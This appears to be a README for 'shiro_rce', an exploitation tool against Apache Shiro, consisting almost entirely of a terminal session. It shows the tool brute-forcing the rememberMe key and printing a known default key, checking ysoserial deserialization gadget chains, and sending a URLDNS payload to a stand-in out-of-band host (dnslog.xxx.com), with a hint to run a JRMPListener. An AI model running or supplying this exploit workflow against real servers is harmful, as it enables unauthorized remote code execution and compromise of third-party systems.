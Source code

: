 # shiro_rce

[admin@ shiro]java -cp shiro_tool.jar Shiro https://xx.xx.xx.xx/          
[-] target: https://xx.xx.xx.xx/
[-] target is use shiro
[-] start guess shiro key.
[-] shiro key: kPH+bIxk5D2deZiIxcaaaA==
[-] check URLDNS
[*] find: URLDNS can be use
[*] URLDNS command format: http://dnslog.xxx.com
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check JRMPClient
[*] find: JRMPClient can be use
[*] JRMPClient please use: java -cp shiro_tool.jar ysoserial.exploit.JRMPListener 
0: URLDNS
1: JRMPClient
[-] please enter the number(0-1)
0
[-] use gadget: URLDNS
[-] please enter command, input q or quit to quit
http://dnslog.xxx.com
[-] start process command: http://dnslog.xxx.com
[-] please enter command, input q or quit to quit
quit
[-] start process command: quit
[-] exit
